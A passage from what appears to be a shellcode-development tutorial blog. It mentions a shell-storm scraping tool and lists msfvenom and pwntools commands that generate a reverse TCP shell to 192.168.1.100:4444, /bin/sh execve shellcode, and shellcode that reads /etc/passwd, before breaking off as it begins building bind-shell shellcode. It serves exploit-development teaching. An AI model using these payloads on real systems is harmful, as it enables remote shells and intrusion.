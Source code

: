 During my work on shellcode development, I needed to reference various shellcode examples from established databases. While exploring the well-known shellcode database (besides Exploit-DB), I discovered that their API—particularly the `-display` functionality—was no longer working properly. The API appears to be outdated or not maintained. Rather than abandoning this valuable resource, I decided to build a tool that fetches shellcode directly from the HTML pages and preprocesses it to extract clean, usable shellcode. 

You can find the tool [here](https://github.com/nyxFault/shell-storm)

### Automated shellcode generation

```bash
# Using msfvenom
# Generate Linux x64 reverse TCP shell
msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f c

# List all payloads
msfvenom --list payloads

# Using pwntools
pip install pwntools

# List available shellcraft templates
pwn shellcraft -l
# Optional filtering:
pwn shellcraft -l i386

# Generate Linux x86 execve("/bin/sh") shellcode
pwn shellcraft i386.linux.sh
# Read Documentation
pwn shellcraft i386.linux.sh --show

# Generate Linux x64 cat /etc/passwd
pwn shellcraft amd64.linux.cat /etc/passwd

# To view the shellcode in escaped string format
pwn shellcraft amd64.linux.sh -f escaped

# Run the shellcode immediately after generation
pwn shellcraft amd64.linux.sh -r

# Debug the shellcode in GDB
pwn shellcraft amd64.linux.sh -d
```

To learn more about **pwntools** you can follow my tutorial on pwntools [here](https://nyxfault.github.io/posts/Mastering-Pwntools/).

In this guide, we'll learn how to combine individual system call shellcodes generated by pwntools to create a fully functional Bind TCP shellcode for x86 architecture, while also removing bad characters.

We already know that a complete bind shell requires these system calls in sequence:
